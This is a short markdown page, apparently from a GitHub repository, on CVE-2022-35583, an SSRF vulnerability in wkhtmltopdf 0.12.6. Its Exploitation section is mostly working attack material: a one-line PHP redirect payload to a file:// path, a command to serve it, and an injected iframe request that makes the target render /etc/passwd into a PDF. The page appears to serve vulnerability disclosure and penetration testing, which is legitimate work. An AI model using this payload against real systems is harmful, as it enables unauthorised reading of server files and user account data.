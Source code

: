 # CVE-2022-35583 - wkhtmlTOpdf 0.12.6 is vulnerable to SSRF

wkhtmltopdf is a command line tool to render HTML into PDF using Qt WebKit. It is vulnerable to SSRF.

## Exploitation

Create a PHP payload to read local file.

```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```

Then start web server in local machine.

```bash
php -S 0.0.0.0:8000
```

Send request to where wkhtmltopdf is affected. For example:

```bash
/htmltopdf?item=<iframe src=http://10.0.0.1:8000/test.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

Now we can see the system users list via a generated PDF.

## Links

- [wkhtmlTOpdf - exploit detais - blog](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)
- [wkhtmlTOpdf - exploit detais - stackexchange](https://security.stackexchange.com/questions/237363/how-can-wkhtmltopdf-be-used-without-introducing-a-security-vulnerability)
